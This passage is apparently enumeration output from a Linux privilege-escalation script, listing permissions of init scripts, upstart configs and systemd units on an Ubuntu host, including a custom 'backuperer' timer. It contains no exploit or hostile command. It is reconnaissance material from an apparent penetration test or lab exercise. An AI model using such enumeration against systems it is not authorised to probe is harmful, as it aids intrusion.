-rwxr-xr-x 1 root root 24295748 Apr 20  2018 /usr/sbin/mysqld
-rwxr-xr-x 1 root root   670548 Apr  5  2016 /usr/sbin/rsyslogd


[-] /etc/init.d/ binary permissions:
total 324
drwxr-xr-x  2 root root 4096 May  1  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root 1264 May  1  2018 .depend.boot
-rw-r--r--  1 root root 1032 May  1  2018 .depend.start
-rw-r--r--  1 root root 1213 May  1  2018 .depend.stop
-rw-r--r--  1 root root 2427 Jan 19  2016 README
-rwxr-xr-x  1 root root 2243 Feb  9  2016 acpid
-rwxr-xr-x  1 root root 2210 Apr  5  2016 apache-htcacheclean
-rwxr-xr-x  1 root root 8087 Apr  5  2016 apache2
-rwxr-xr-x  1 root root 6223 Mar  3  2017 apparmor
-rwxr-xr-x  1 root root 2802 Jan  2  2018 apport
-rwxr-xr-x  1 root root 1071 Dec  6  2015 atd
-rwxr-xr-x  1 root root 1275 Jan 19  2016 bootmisc.sh
-rwxr-xr-x  1 root root 3807 Jan 19  2016 checkfs.sh
-rwxr-xr-x  1 root root 1098 Jan 19  2016 checkroot-bootclean.sh
-rwxr-xr-x  1 root root 9353 Jan 19  2016 checkroot.sh
-rwxr-xr-x  1 root root 1343 Apr  4  2016 console-setup
-rwxr-xr-x  1 root root 3049 Apr  5  2016 cron
-rwxr-xr-x  1 root root  937 Mar 28  2015 cryptdisks
-rwxr-xr-x  1 root root  896 Mar 28  2015 cryptdisks-early
-rwxr-xr-x  1 root root 2813 Dec  1  2015 dbus
-rwxr-xr-x  1 root root 1105 Mar 15  2016 grub-common
-rwxr-xr-x  1 root root 1336 Jan 19  2016 halt
-rwxr-xr-x  1 root root 1423 Jan 19  2016 hostname.sh
-rwxr-xr-x  1 root root 3809 Mar 12  2016 hwclock.sh
-rwxr-xr-x  1 root root 2372 Apr 11  2016 irqbalance
-rwxr-xr-x  1 root root 1503 Mar 29  2016 iscsid
-rwxr-xr-x  1 root root 1804 Apr  4  2016 keyboard-setup
-rwxr-xr-x  1 root root 1300 Jan 19  2016 killprocs
-rwxr-xr-x  1 root root 2087 Dec 20  2015 kmod
-rwxr-xr-x  1 root root  695 Oct 30  2015 lvm2
-rwxr-xr-x  1 root root  571 Oct 30  2015 lvm2-lvmetad
-rwxr-xr-x  1 root root  586 Oct 30  2015 lvm2-lvmpolld
-rwxr-xr-x  1 root root 2378 Nov  8  2017 lxcfs
-rwxr-xr-x  1 root root 2539 Jun  8  2017 lxd
-rwxr-xr-x  1 root root 2365 Oct  9  2017 mdadm
-rwxr-xr-x  1 root root 1199 Jul 16  2014 mdadm-waitidle
-rwxr-xr-x  1 root root  703 Jan 19  2016 mountall-bootclean.sh
-rwxr-xr-x  1 root root 2301 Jan 19  2016 mountall.sh
-rwxr-xr-x  1 root root 1461 Jan 19  2016 mountdevsubfs.sh
-rwxr-xr-x  1 root root 1564 Jan 19  2016 mountkernfs.sh
-rwxr-xr-x  1 root root  711 Jan 19  2016 mountnfs-bootclean.sh
-rwxr-xr-x  1 root root 2456 Jan 19  2016 mountnfs.sh
-rwxr-xr-x  1 root root 5607 Feb  3  2017 mysql
-rwxr-xr-x  1 root root 4771 Jul 19  2015 networking
-rwxr-xr-x  1 root root 1581 Oct 15  2015 ondemand
-rwxr-xr-x  1 root root 2503 Mar 29  2016 open-iscsi
-rwxr-xr-x  1 root root 1578 Sep 18  2016 open-vm-tools
-rwxr-xr-x  1 root root 1366 Nov 15  2015 plymouth
-rwxr-xr-x  1 root root  752 Nov 15  2015 plymouth-log
-rwxr-xr-x  1 root root 1192 Sep  6  2015 procps
-rwxr-xr-x  1 root root 6366 Jan 19  2016 rc
-rwxr-xr-x  1 root root  820 Jan 19  2016 rc.local
-rwxr-xr-x  1 root root  117 Jan 19  2016 rcS
-rwxr-xr-x  1 root root  661 Jan 19  2016 reboot
-rwxr-xr-x  1 root root 4149 Nov 23  2015 resolvconf
-rwxr-xr-x  1 root root 4355 Jul 10  2014 rsync
-rwxr-xr-x  1 root root 2796 Feb  3  2016 rsyslog
-rwxr-xr-x  1 root root 1226 Jun  9  2015 screen-cleanup
-rwxr-xr-x  1 root root 3927 Jan 19  2016 sendsigs
-rwxr-xr-x  1 root root  597 Jan 19  2016 single
-rw-r--r--  1 root root 1087 Jan 19  2016 skeleton
-rwxr-xr-x  1 root root 4077 Mar 16  2017 ssh
-rwxr-xr-x  1 root root 6087 Apr 12  2016 udev
-rwxr-xr-x  1 root root 2049 Aug  7  2014 ufw
-rwxr-xr-x  1 root root 2737 Jan 19  2016 umountfs
-rwxr-xr-x  1 root root 2202 Jan 19  2016 umountnfs.sh
-rwxr-xr-x  1 root root 1879 Jan 19  2016 umountroot
-rwxr-xr-x  1 root root 1391 Apr 20  2017 unattended-upgrades
-rwxr-xr-x  1 root root 3111 Jan 19  2016 urandom
-rwxr-xr-x  1 root root 1306 Jun 14  2017 uuidd


[-] /etc/init/ config file permissions:
total 160
drwxr-xr-x  2 root root 4096 May  1  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  338 Apr  8  2016 acpid.conf
-rw-r--r--  1 root root 3709 Mar  3  2017 apparmor.conf
-rw-r--r--  1 root root 1629 Jan  2  2018 apport.conf
-rw-r--r--  1 root root  250 Apr  4  2016 console-font.conf
-rw-r--r--  1 root root  509 Apr  4  2016 console-setup.conf
-rw-r--r--  1 root root  297 Apr  5  2016 cron.conf
-rw-r--r--  1 root root  412 Mar 28  2015 cryptdisks-udev.conf
-rw-r--r--  1 root root 1519 Mar 28  2015 cryptdisks.conf
-rw-r--r--  1 root root  482 Sep  1  2015 dbus.conf
-rw-r--r--  1 root root 1247 Jun  1  2015 friendly-recovery.conf
-rw-r--r--  1 root root  284 Jul 23  2013 hostname.conf
-rw-r--r--  1 root root  300 May 21  2014 hostname.sh.conf
-rw-r--r--  1 root root  561 Mar 14  2016 hwclock-save.conf
-rw-r--r--  1 root root  674 Mar 14  2016 hwclock.conf
-rw-r--r--  1 root root  109 Mar 14  2016 hwclock.sh.conf
-rw-r--r--  1 root root  597 Apr 11  2016 irqbalance.conf
-rw-r--r--  1 root root  689 Aug 20  2015 kmod.conf
-rw-r--r--  1 root root  540 Jul  5  2017 lxcfs.conf
-rw-r--r--  1 root root  811 Jun  8  2017 lxd.conf
-rw-r--r--  1 root root 1757 Feb  3  2017 mysql.conf
-rw-r--r--  1 root root  530 Jun  2  2015 network-interface-container.conf
-rw-r--r--  1 root root 1756 Jun  2  2015 network-interface-security.conf
-rw-r--r--  1 root root  933 Jun  2  2015 network-interface.conf
-rw-r--r--  1 root root 2493 Jun  2  2015 networking.conf
-rw-r--r--  1 root root  568 Feb  1  2016 passwd.conf
-rw-r--r--  1 root root  363 Jun  5  2014 procps-instance.conf
-rw-r--r--  1 root root  119 Jun  5  2014 procps.conf
-rw-r--r--  1 root root  457 Jun  3  2015 resolvconf.conf
-rw-r--r--  1 root root  426 Dec  2  2015 rsyslog.conf
-rw-r--r--  1 root root  230 Apr  4  2016 setvtrgb.conf
-rw-r--r--  1 root root  641 Mar 16  2017 ssh.conf
-rw-r--r--  1 root root    7 Feb 21  2018 ssh.override
-rw-r--r--  1 root root  337 Apr 12  2016 udev.conf
-rw-r--r--  1 root root  360 Apr 12  2016 udevmonitor.conf
-rw-r--r--  1 root root  352 Apr 12  2016 udevtrigger.conf
-rw-r--r--  1 root root  473 Aug  7  2014 ufw.conf
-rw-r--r--  1 root root  683 Feb 24  2015 ureadahead-other.conf
-rw-r--r--  1 root root  889 Feb 24  2015 ureadahead.conf


[-] /lib/systemd/* config file permissions:
/lib/systemd/:
total 8.4M
drwxr-xr-x 27 root root  36K May  1  2018 system
drwxr-xr-x  2 root root 4.0K May  1  2018 system-generators
drwxr-xr-x  2 root root 4.0K May  1  2018 system-sleep
drwxr-xr-x  2 root root 4.0K May  1  2018 network
drwxr-xr-x  2 root root 4.0K May  1  2018 system-preset
-rwxr-xr-x  1 root root 442K Mar  8  2018 systemd-udevd
-rwxr-xr-x  1 root root 1.5M Mar  8  2018 systemd
-rwxr-xr-x  1 root root  50K Mar  8  2018 systemd-binfmt
-rwxr-xr-x  1 root root 279K Mar  8  2018 systemd-cgroups-agent
-rwxr-xr-x  1 root root 627K Mar  8  2018 systemd-logind
-rwxr-xr-x  1 root root 122K Mar  8  2018 systemd-networkd-wait-online
-rwxr-xr-x  1 root root 671K Mar  8  2018 systemd-resolved
-rwxr-xr-x  1 root root 142K Mar  8  2018 systemd-shutdown
-rwxr-xr-x  1 root root  74K Mar  8  2018 systemd-sleep
-rwxr-xr-x  1 root root 347K Mar  8  2018 systemd-timedated
-rwxr-xr-x  1 root root  14K Mar  8  2018 systemd-ac-power
-rwxr-xr-x  1 root root 102K Mar  8  2018 systemd-bootchart
-rwxr-xr-x  1 root root 367K Mar  8  2018 systemd-bus-proxyd
-rwxr-xr-x  1 root root  90K Mar  8  2018 systemd-cryptsetup
-rwxr-xr-x  1 root root 307K Mar  8  2018 systemd-fsck
-rwxr-xr-x  1 root root  74K Mar  8  2018 systemd-fsckd
-rwxr-xr-x  1 root root  30K Mar  8  2018 systemd-hibernate-resume
-rwxr-xr-x  1 root root 347K Mar  8  2018 systemd-hostnamed
-rwxr-xr-x  1 root root 283K Mar  8  2018 systemd-initctl
-rwxr-xr-x  1 root root 342K Mar  8  2018 systemd-journald
-rwxr-xr-x  1 root root 355K Mar  8  2018 systemd-localed
-rwxr-xr-x  1 root root  54K Mar  8  2018 systemd-modules-load
-rwxr-xr-x  1 root root 859K Mar  8  2018 systemd-networkd
-rwxr-xr-x  1 root root  30K Mar  8  2018 systemd-quotacheck
-rwxr-xr-x  1 root root  34K Mar  8  2018 systemd-random-seed
-rwxr-xr-x  1 root root  54K Mar  8  2018 systemd-remount-fs
-rwxr-xr-x  1 root root  30K Mar  8  2018 systemd-reply-password
-rwxr-xr-x  1 root root  98K Mar  8  2018 systemd-socket-proxyd
-rwxr-xr-x  1 root root  54K Mar  8  2018 systemd-sysctl
-rwxr-xr-x  1 root root 146K Mar  8  2018 systemd-timesyncd
-rwxr-xr-x  1 root root  34K Mar  8  2018 systemd-user-sessions
-rwxr-xr-x  1 root root  50K Mar  8  2018 systemd-activate
-rwxr-xr-x  1 root root  94K Mar  8  2018 systemd-backlight
-rwxr-xr-x  1 root root  94K Mar  8  2018 systemd-rfkill
-rwxr-xr-x  1 root root 283K Mar  8  2018 systemd-update-utmp
-rwxr-xr-x  1 root root 1.3K Feb 21  2018 systemd-sysv-install
drwxr-xr-x  2 root root 4.0K Feb  9  2018 system-shutdown

/lib/systemd/system:
total 948K
drwxr-xr-x 2 root root 4.0K May  1  2018 halt.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 kexec.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 poweroff.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 sysinit.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 initrd-switch-root.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 multi-user.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 reboot.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 apache2.service.d
drwxr-xr-x 2 root root 4.0K May  1  2018 sockets.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 getty.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 graphical.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 local-fs.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 rescue.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 resolvconf.service.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 sigpwr.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 timers.target.wants
drwxr-xr-x 2 root root 4.0K May  1  2018 rc-local.service.d
drwxr-xr-x 2 root root 4.0K May  1  2018 systemd-resolved.service.d
drwxr-xr-x 2 root root 4.0K May  1  2018 systemd-timesyncd.service.d
-rw-r--r-- 1 root root  252 Apr 11  2018 snapd.autoimport.service
-rw-r--r-- 1 root root  386 Apr 11  2018 snapd.core-fixup.service
-rw-r--r-- 1 root root  308 Apr 11  2018 snapd.service
-rw-r--r-- 1 root root  287 Apr 11  2018 snapd.snap-repair.service
-rw-r--r-- 1 root root  281 Apr 11  2018 snapd.snap-repair.timer
-rw-r--r-- 1 root root  281 Apr 11  2018 snapd.socket
-rw-r--r-- 1 root root  474 Apr 11  2018 snapd.system-shutdown.service
-rw-r--r-- 1 root root  246 Apr  5  2018 apport-forward.socket
lrwxrwxrwx 1 root root   27 Apr  3  2018 plymouth-log.service -> plymouth-read-write.service
lrwxrwxrwx 1 root root   21 Apr  3  2018 plymouth.service -> plymouth-quit.service
-rw-r--r-- 1 root root  412 Apr  3  2018 plymouth-halt.service
-rw-r--r-- 1 root root  426 Apr  3  2018 plymouth-kexec.service
-rw-r--r-- 1 root root  421 Apr  3  2018 plymouth-poweroff.service
-rw-r--r-- 1 root root  200 Apr  3  2018 plymouth-quit-wait.service
-rw-r--r-- 1 root root  194 Apr  3  2018 plymouth-quit.service
-rw-r--r-- 1 root root  244 Apr  3  2018 plymouth-read-write.service
-rw-r--r-- 1 root root  416 Apr  3  2018 plymouth-reboot.service
-rw-r--r-- 1 root root  532 Apr  3  2018 plymouth-start.service
-rw-r--r-- 1 root root  291 Apr  3  2018 plymouth-switch-root.service
-rw-r--r-- 1 root root  490 Apr  3  2018 systemd-ask-password-plymouth.path
-rw-r--r-- 1 root root  467 Apr  3  2018 systemd-ask-password-plymouth.service
lrwxrwxrwx 1 root root   21 Mar  8  2018 udev.service -> systemd-udevd.service
lrwxrwxrwx 1 root root   14 Mar  8  2018 autovt@.service -> getty@.service
lrwxrwxrwx 1 root root    9 Mar  8  2018 bootlogd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 bootlogs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 bootmisc.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 checkfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 checkroot-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 checkroot.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 cryptdisks-early.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 cryptdisks.service -> /dev/null
lrwxrwxrwx 1 root root   13 Mar  8  2018 ctrl-alt-del.target -> reboot.target
lrwxrwxrwx 1 root root   25 Mar  8  2018 dbus-org.freedesktop.hostname1.service -> systemd-hostnamed.service
lrwxrwxrwx 1 root root   23 Mar  8  2018 dbus-org.freedesktop.locale1.service -> systemd-localed.service
lrwxrwxrwx 1 root root   22 Mar  8  2018 dbus-org.freedesktop.login1.service -> systemd-logind.service
lrwxrwxrwx 1 root root   24 Mar  8  2018 dbus-org.freedesktop.network1.service -> systemd-networkd.service
lrwxrwxrwx 1 root root   24 Mar  8  2018 dbus-org.freedesktop.resolve1.service -> systemd-resolved.service
lrwxrwxrwx 1 root root   25 Mar  8  2018 dbus-org.freedesktop.timedate1.service -> systemd-timedated.service
lrwxrwxrwx 1 root root   16 Mar  8  2018 default.target -> graphical.target
lrwxrwxrwx 1 root root    9 Mar  8  2018 fuse.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 halt.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 hostname.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 hwclock.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 killprocs.service -> /dev/null
lrwxrwxrwx 1 root root   28 Mar  8  2018 kmod.service -> systemd-modules-load.service
lrwxrwxrwx 1 root root   28 Mar  8  2018 module-init-tools.service -> systemd-modules-load.service
lrwxrwxrwx 1 root root    9 Mar  8  2018 motd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 mountall-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 mountall.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 mountdevsubfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 mountkernfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 mountnfs-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 mountnfs.service -> /dev/null
lrwxrwxrwx 1 root root   22 Mar  8  2018 procps.service -> systemd-sysctl.service
lrwxrwxrwx 1 root root   16 Mar  8  2018 rc.local.service -> rc-local.service
lrwxrwxrwx 1 root root    9 Mar  8  2018 rc.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 rcS.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 reboot.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 rmnologin.service -> /dev/null
lrwxrwxrwx 1 root root   15 Mar  8  2018 runlevel0.target -> poweroff.target
lrwxrwxrwx 1 root root   13 Mar  8  2018 runlevel1.target -> rescue.target
lrwxrwxrwx 1 root root   17 Mar  8  2018 runlevel2.target -> multi-user.target
lrwxrwxrwx 1 root root   17 Mar  8  2018 runlevel3.target -> multi-user.target
lrwxrwxrwx 1 root root   17 Mar  8  2018 runlevel4.target -> multi-user.target
lrwxrwxrwx 1 root root   16 Mar  8  2018 runlevel5.target -> graphical.target
lrwxrwxrwx 1 root root   13 Mar  8  2018 runlevel6.target -> reboot.target
lrwxrwxrwx 1 root root    9 Mar  8  2018 sendsigs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 single.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 stop-bootlogd-single.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 stop-bootlogd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 umountfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 umountnfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Mar  8  2018 umountroot.service -> /dev/null
lrwxrwxrwx 1 root root   27 Mar  8  2018 urandom.service -> systemd-random-seed.service
lrwxrwxrwx 1 root root    9 Mar  8  2018 x11-common.service -> /dev/null
-rw-r--r-- 1 root root  403 Mar  8  2018 -.slice
-rw-r--r-- 1 root root  879 Mar  8  2018 basic.target
-rw-r--r-- 1 root root  379 Mar  8  2018 bluetooth.target
-rw-r--r-- 1 root root  358 Mar  8  2018 busnames.target
-rw-r--r-- 1 root root  770 Mar  8  2018 console-getty.service
-rw-r--r-- 1 root root  742 Mar  8  2018 console-shell.service
-rw-r--r-- 1 root root  791 Mar  8  2018 container-getty@.service
-rw-r--r-- 1 root root  394 Mar  8  2018 cryptsetup-pre.target
-rw-r--r-- 1 root root  366 Mar  8  2018 cryptsetup.target
-rw-r--r-- 1 root root 1010 Mar  8  2018 debug-shell.service
-rw-r--r-- 1 root root  670 Mar  8  2018 dev-hugepages.mount
-rw-r--r-- 1 root root  624 Mar  8  2018 dev-mqueue.mount
-rw-r--r-- 1 root root 1009 Mar  8  2018 emergency.service
-rw-r--r-- 1 root root  431 Mar  8  2018 emergency.target
-rw-r--r-- 1 root root  501 Mar  8  2018 exit.target
-rw-r--r-- 1 root root  440 Mar  8  2018 final.target
-rw-r--r-- 1 root root  460 Mar  8  2018 getty.target
-rw-r--r-- 1 root root 1.5K Mar  8  2018 getty@.service
-rw-r--r-- 1 root root  558 Mar  8  2018 graphical.target
-rw-r--r-- 1 root root  487 Mar  8  2018 halt.target
-rw-r--r-- 1 root root  447 Mar  8  2018 hibernate.target
-rw-r--r-- 1 root root  468 Mar  8  2018 hybrid-sleep.target
-rw-r--r-- 1 root root  630 Mar  8  2018 initrd-cleanup.service
-rw-r--r-- 1 root root  553 Mar  8  2018 initrd-fs.target
-rw-r--r-- 1 root root  790 Mar  8  2018 initrd-parse-etc.service
-rw-r--r-- 1 root root  526 Mar  8  2018 initrd-root-fs.target
-rw-r--r-- 1 root root  640 Mar  8  2018 initrd-switch-root.service
-rw-r--r-- 1 root root  691 Mar  8  2018 initrd-switch-root.target
-rw-r--r-- 1 root root  664 Mar  8  2018 initrd-udevadm-cleanup-db.service
-rw-r--r-- 1 root root  671 Mar  8  2018 initrd.target
-rw-r--r-- 1 root root  501 Mar  8  2018 kexec.target
-rw-r--r-- 1 root root  677 Mar  8  2018 kmod-static-nodes.service
-rw-r--r-- 1 root root  395 Mar  8  2018 local-fs-pre.target
-rw-r--r-- 1 root root  507 Mar  8  2018 local-fs.target
-rw-r--r-- 1 root root  405 Mar  8  2018 machine.slice
-rw-r--r-- 1 root root  473 Mar  8  2018 mail-transport-agent.target
-rw-r--r-- 1 root root  492 Mar  8  2018 multi-user.target
-rw-r--r-- 1 root root  464 Mar  8  2018 network-online.target
-rw-r--r-- 1 root root  461 Mar  8  2018 network-pre.target
-rw-r--r-- 1 root root  480 Mar  8  2018 network.target
-rw-r--r-- 1 root root  514 Mar  8  2018 nss-lookup.target
-rw-r--r-- 1 root root  473 Mar  8  2018 nss-user-lookup.target
-rw-r--r-- 1 root root  354 Mar  8  2018 paths.target
-rw-r--r-- 1 root root  552 Mar  8  2018 poweroff.target
-rw-r--r-- 1 root root  377 Mar  8  2018 printer.target
-rw-r--r-- 1 root root  693 Mar  8  2018 proc-sys-fs-binfmt_misc.automount
-rw-r--r-- 1 root root  603 Mar  8  2018 proc-sys-fs-binfmt_misc.mount
-rw-r--r-- 1 root root  568 Mar  8  2018 quotaon.service
-rw-r--r-- 1 root root  612 Mar  8  2018 rc-local.service
-rw-r--r-- 1 root root  543 Mar  8  2018 reboot.target
-rw-r--r-- 1 root root  396 Mar  8  2018 remote-fs-pre.target
-rw-r--r-- 1 root root  482 Mar  8  2018 remote-fs.target
-rw-r--r-- 1 root root  978 Mar  8  2018 rescue.service
-rw-r--r-- 1 root root  486 Mar  8  2018 rescue.target
-rw-r--r-- 1 root root  500 Mar  8  2018 rpcbind.target
-rw-r--r-- 1 root root 1.1K Mar  8  2018 serial-getty@.service
-rw-r--r-- 1 root root  402 Mar  8  2018 shutdown.target
-rw-r--r-- 1 root root  362 Mar  8  2018 sigpwr.target
-rw-r--r-- 1 root root  420 Mar  8  2018 sleep.target
-rw-r--r-- 1 root root  409 Mar  8  2018 slices.target
-rw-r--r-- 1 root root  380 Mar  8  2018 smartcard.target
-rw-r--r-- 1 root root  356 Mar  8  2018 sockets.target
-rw-r--r-- 1 root root  380 Mar  8  2018 sound.target
-rw-r--r-- 1 root root  441 Mar  8  2018 suspend.target
-rw-r--r-- 1 root root  353 Mar  8  2018 swap.target
-rw-r--r-- 1 root root  715 Mar  8  2018 sys-fs-fuse-connections.mount
-rw-r--r-- 1 root root  719 Mar  8  2018 sys-kernel-config.mount
-rw-r--r-- 1 root root  662 Mar  8  2018 sys-kernel-debug.mount
-rw-r--r-- 1 root root  518 Mar  8  2018 sysinit.target
-rw-r--r-- 1 root root 1.3K Mar  8  2018 syslog.socket
-rw-r--r-- 1 root root  585 Mar  8  2018 system-update.target
-rw-r--r-- 1 root root  436 Mar  8  2018 system.slice
-rw-r--r-- 1 root root  646 Mar  8  2018 systemd-ask-password-console.path
-rw-r--r-- 1 root root  653 Mar  8  2018 systemd-ask-password-console.service
-rw-r--r-- 1 root root  574 Mar  8  2018 systemd-ask-password-wall.path
-rw-r--r-- 1 root root  681 Mar  8  2018 systemd-ask-password-wall.service
-rw-r--r-- 1 root root  724 Mar  8  2018 systemd-backlight@.service
-rw-r--r-- 1 root root  959 Mar  8  2018 systemd-binfmt.service
-rw-r--r-- 1 root root  650 Mar  8  2018 systemd-bootchart.service
-rw-r--r-- 1 root root 1.0K Mar  8  2018 systemd-bus-proxyd.service
-rw-r--r-- 1 root root  409 Mar  8  2018 systemd-bus-proxyd.socket
-rw-r--r-- 1 root root  497 Mar  8  2018 systemd-exit.service
-rw-r--r-- 1 root root  674 Mar  8  2018 systemd-fsck-root.service
-rw-r--r-- 1 root root  648 Mar  8  2018 systemd-fsck@.service
-rw-r--r-- 1 root root  551 Mar  8  2018 systemd-fsckd.service
-rw-r--r-- 1 root root  540 Mar  8  2018 systemd-fsckd.socket
-rw-r--r-- 1 root root  544 Mar  8  2018 systemd-halt.service
-rw-r--r-- 1 root root  631 Mar  8  2018 systemd-hibernate-resume@.service
-rw-r--r-- 1 root root  501 Mar  8  2018 systemd-hibernate.service
-rw-r--r-- 1 root root  710 Mar  8  2018 systemd-hostnamed.service
-rw-r--r-- 1 root root  778 Mar  8  2018 systemd-hwdb-update.service
-rw-r--r-- 1 root root  519 Mar  8  2018 systemd-hybrid-sleep.service
-rw-r--r-- 1 root root  480 Mar  8  2018 systemd-initctl.service
-rw-r--r-- 1 root root  524 Mar  8  2018 systemd-initctl.socket
-rw-r--r-- 1 root root  731 Mar  8  2018 systemd-journal-flush.service
-rw-r--r-- 1 root root  607 Mar  8  2018 systemd-journald-audit.socket
-rw-r--r-- 1 root root 1.1K Mar  8  2018 systemd-journald-dev-log.socket
-rw-r--r-- 1 root root 1.3K Mar  8  2018 systemd-journald.service
-rw-r--r-- 1 root root  842 Mar  8  2018 systemd-journald.socket
-rw-r--r-- 1 root root  557 Mar  8  2018 systemd-kexec.service
-rw-r--r-- 1 root root  691 Mar  8  2018 systemd-localed.service
-rw-r--r-- 1 root root 1.2K Mar  8  2018 systemd-logind.service
-rw-r--r-- 1 root root  693 Mar  8  2018 systemd-machine-id-commit.service
-rw-r--r-- 1 root root  967 Mar  8  2018 systemd-modules-load.service
-rw-r--r-- 1 root root  685 Mar  8  2018 systemd-networkd-wait-online.service
-rw-r--r-- 1 root root 1.3K Mar  8  2018 systemd-networkd.service
-rw-r--r-- 1 root root  591 Mar  8  2018 systemd-networkd.socket
-rw-r--r-- 1 root root  553 Mar  8  2018 systemd-poweroff.service
-rw-r--r-- 1 root root  614 Mar  8  2018 systemd-quotacheck.service
-rw-r--r-- 1 root root  717 Mar  8  2018 systemd-random-seed.service
-rw-r--r-- 1 root root  548 Mar  8  2018 systemd-reboot.service
-rw-r--r-- 1 root root  757 Mar  8  2018 systemd-remount-fs.service
-rw-r--r-- 1 root root  907 Mar  8  2018 systemd-resolved.service
-rw-r--r-- 1 root root  696 Mar  8  2018 systemd-rfkill.service
-rw-r--r-- 1 root root  617 Mar  8  2018 systemd-rfkill.socket
-rw-r--r-- 1 root root  497 Mar  8  2018 systemd-suspend.service
-rw-r--r-- 1 root root  653 Mar  8  2018 systemd-sysctl.service
-rw-r--r-- 1 root root  655 Mar  8  2018 systemd-timedated.service
-rw-r--r-- 1 root root 1.1K Mar  8  2018 systemd-timesyncd.service
-rw-r--r-- 1 root root  598 Mar  8  2018 systemd-tmpfiles-clean.service
-rw-r--r-- 1 root root  450 Mar  8  2018 systemd-tmpfiles-clean.timer
-rw-r--r-- 1 root root  703 Mar  8  2018 systemd-tmpfiles-setup-dev.service
-rw-r--r-- 1 root root  683 Mar  8  2018 systemd-tmpfiles-setup.service
-rw-r--r-- 1 root root  823 Mar  8  2018 systemd-udev-settle.service
-rw-r--r-- 1 root root  743 Mar  8  2018 systemd-udev-trigger.service
-rw-r--r-- 1 root root  578 Mar  8  2018 systemd-udevd-control.socket
-rw-r--r-- 1 root root  570 Mar  8  2018 systemd-udevd-kernel.socket
-rw-r--r-- 1 root root  825 Mar  8  2018 systemd-udevd.service
-rw-r--r-- 1 root root  757 Mar  8  2018 systemd-update-utmp-runlevel.service
-rw-r--r-- 1 root root  754 Mar  8  2018 systemd-update-utmp.service
-rw-r--r-- 1 root root  573 Mar  8  2018 systemd-user-sessions.service
-rw-r--r-- 1 root root  395 Mar  8  2018 time-sync.target
-rw-r--r-- 1 root root  405 Mar  8  2018 timers.target
-rw-r--r-- 1 root root  417 Mar  8  2018 umount.target
-rw-r--r-- 1 root root  392 Mar  8  2018 user.slice
-rw-r--r-- 1 root root  528 Mar  8  2018 user@.service
-rw-r--r-- 1 root root  238 Mar  6  2018 apt-daily-upgrade.service
-rw-r--r-- 1 root root  184 Mar  6  2018 apt-daily-upgrade.timer
-rw-r--r-- 1 root root  225 Mar  6  2018 apt-daily.service
-rw-r--r-- 1 root root  156 Mar  6  2018 apt-daily.timer
-rw-r--r-- 1 root root  342 Feb 21  2018 getty-static.service
-rw-r--r-- 1 root root  153 Feb 21  2018 sigpwr-container-shutdown.service
-rw-r--r-- 1 root root  175 Feb 21  2018 systemd-networkd-resolvconf-update.path
-rw-r--r-- 1 root root  715 Feb 21  2018 systemd-networkd-resolvconf-update.service
-rw-r--r-- 1 root root   72 Feb 17  2018 backuperer.service
-rw-r--r-- 1 root root  254 Feb 16  2018 backuperer.timer
-rw-r--r-- 1 root root  251 Feb 15  2018 open-vm-tools.service
lrwxrwxrwx 1 root root    9 Feb  9  2018 screen-cleanup.service -> /dev/null
-rw-r--r-- 1 root root  681 Dec  7  2017 lxd.service
-rw-r--r-- 1 root root  206 Dec  7  2017 lxd-bridge.service
-rw-r--r-- 1 root root  318 Dec  7  2017 lxd-containers.service
-rw-r--r-- 1 root root  197 Dec  7  2017 lxd.socket
-rw-r--r-- 1 root root  189 Nov 30  2017 uuidd.service
-rw-r--r-- 1 root root  126 Nov 30  2017 uuidd.socket
-rw-r--r-- 1 root root  420 Nov 29  2017 resolvconf.service
-rw-r--r-- 1 root root  311 Nov  8  2017 lxcfs.service
-rw-r--r-- 1 root root  670 Nov  8  2017 mdadm-shutdown.service
drwxr-xr-x 2 root root 4.0K Aug  1  2017 busnames.target.wants
-rw-r--r-- 1 root root  345 Apr 20  2017 unattended-upgrades.service
-rw-r--r-- 1 root root  385 Mar 16  2017 ssh.service
